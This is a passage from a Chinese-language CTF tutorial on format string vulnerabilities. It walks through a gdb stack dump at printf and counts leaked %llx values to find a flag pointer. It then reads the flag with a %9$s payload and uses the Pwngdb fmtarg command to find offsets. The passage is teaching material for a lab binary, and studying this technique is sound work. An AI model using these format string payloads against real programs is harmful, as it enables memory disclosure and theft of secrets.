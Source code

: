 ```assembly
[----------------------------------registers-----------------------------------]
[...]
RCX: 0x7ffff7b042c0 (<__write_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd3780 --> 0x0 
RSI: 0x602010 ("You answered:\ng"...)
RDI: 0x602830 ("%llx.%llx.%llx."...)
[...]
R8 : 0x7ffff7fd9700 (0x00007ffff7fd9700)
R9 : 0x7ffff7fd9701 --> 0x1000007ffff7fd97 
[...]
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff7a627f7 <__fprintf+135>:	add    rsp,0xd8
   0x7ffff7a627fe <__fprintf+142>:	ret    
   0x7ffff7a627ff:	nop
=> 0x7ffff7a62800 <__printf>:	sub    rsp,0xd8 #一定要注意这时候printf的栈帧还没有完成建立！
   0x7ffff7a62807 <__printf+7>:	test   al,al
   0x7ffff7a62809 <__printf+9>:	mov    QWORD PTR [rsp+0x28],rsi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde18 --> 0x400890 (<main+234>:	mov    edi,0x4009b8) #这是printf的返回地址入栈【未来的rbp+8的位置】
0008| 0x7fffffffde20 --> 0x25000001 
0016| 0x7fffffffde28 --> 0x602830 ("%llx.%llx.%llx."...)
0024| 0x7fffffffde30 --> 0x602010 ("You answered:\ng"...)
0032| 0x7fffffffde38 --> 0x7fffffffde40 ("flag{iamSPiderm"...)  #flag的存储地址
```

>#输入%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx【8个%llx】
>
>602010(rsi).7ffff7dd3780(rdx).7ffff7b042c0(rcx).7ffff7fd9700(r8).7ffff7fd9701(r9).25000001(0x7fffffffde20处的值，是参数区的第一个位置).602830(0x7fffffffde28).602010(0x7fffffffde30)
>
>所以第九个%llx的时候，就得到flag的存储地址0x7fffffffde40

故使用`%9$s`会解析0x7fffffffde40地址下的字符串`flag{iamSPiderm……}`

##### 工具确定偏移

当然，我们还有更简单的方法利用 https://github.com/scwuaptx/Pwngdb中的 fmtarg 来判断某个参数的偏移。

```
gef➤  fmtarg 0x7fffffffde38
The index of format argument : 10
```

<u>需要注意的是我们必须 break 在 printf 处。</u>

#### 注意

这里是计算格式化字符串的存储位置在栈上的偏移，即

> 04:0020│      0x7fffffffde38 —▸ 0x7fffffffde40 ◂— 0x6d61697b67616c66 ('flag{iam')`

在参数中的偏移。

所以此后用`%9$s`来解析。因为%s解析的是地址，而如果是用%llx来解析，那么就需要计算
